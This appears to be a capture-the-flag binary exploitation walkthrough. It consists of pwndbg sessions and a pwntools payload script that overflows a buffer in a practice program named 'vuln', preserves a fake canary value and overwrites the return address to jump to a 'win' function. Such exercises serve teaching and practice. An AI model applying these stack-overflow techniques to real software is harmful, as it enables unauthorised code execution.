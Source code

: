 ```
Starting program: /home/connor/Desktop/vuln 
[Thread debugging using libthread_db enabled]                                                              
Using host libthread_db library "/usr/lib/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 65
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAX
***** Stack Smashing Detected ***** : Canary Value Corrupt!
[Inferior 1 (process 107001) exited normally]
```

```
pwndbg> p win
$1 = {<text variable, no debug info>} 0x8049336 <win>
```

```
pwndbg> run
Starting program: /home/connor/Desktop/vuln 
[Thread debugging using libthread_db enabled]                                                              
Using host libthread_db library "/usr/lib/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 100
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATESTBBBBBBBBBBBBBBBBCCCC
Ok... Now Where's the Flag?

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────
 EAX  0x0
*EBX  0x42424242 ('BBBB')
 ECX  0x0
*EDX  0xf7e218a0 (_IO_stdfile_1_lock) ◂— 0x0
*EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049640 (__libc_csu_init) ◂— endbr32 
*EBP  0x42424242 ('BBBB')
*ESP  0xffffd5f0 ◂— 0xffffff0a
*EIP  0x43434343 ('CCCC')
```

```
from pwn import p32
import sys
payload = b'A'*64 + b'TEST' + b'B'*16 + p32(0x8049336)
sys.stdout.buffer.write(b"100\n" + payload)
```

```
pwndbg> run < payload
Starting program: /home/connor/Desktop/vuln < payload
[Thread debugging using libthread_db enabled]                                                              
Using host libthread_db library "/usr/lib/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
Please create 'flag.txt' in this directory with your own debugging flag.
[Inferior 1 (process 107530) exited normally]
```
